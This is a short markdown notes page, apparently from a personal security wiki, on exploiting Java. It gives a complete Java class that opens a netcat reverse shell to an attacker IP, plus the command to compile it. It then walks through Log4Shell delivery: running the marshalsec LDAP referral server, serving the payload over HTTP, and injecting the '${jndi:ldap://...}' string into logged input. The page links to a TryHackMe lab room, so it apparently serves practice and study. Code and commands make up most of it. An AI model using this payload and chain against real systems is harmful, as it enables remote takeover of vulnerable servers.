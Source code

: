 # Exploiting Java

* **author**:: Nathan Acks  
* **date**:: 2022-01-02

## Reverse Shell

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 is the IP you're catching the reverse shell at and 999 is the port of the listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using "netcat"](netcat.md)

## Delivery with Log4Shell

Delivery through a vulnerable version of Log4j is done through a four step process: Malicious string → LDAP lookup → load Java code over HTTP → reverse shell.

A simple Java LDAP server that will handle redirects is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

Once that's done you'll just need to fire up a quick web server to serve the exploit code above and a netcat listener and then find a way to deliver the malicious string (`${jndi:ldap://1.2.3.4:1389/Exploit}`, where 1.2.3.4 is the `$ATTACKER_IP` above) somewhere it will be logged.

Note that a number of other protocols are supported besides LDAP (the marchalsec server supports a few).

* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Quick-n-Dirty Python Web Server](quick-n-dirty-python-web-server.md)
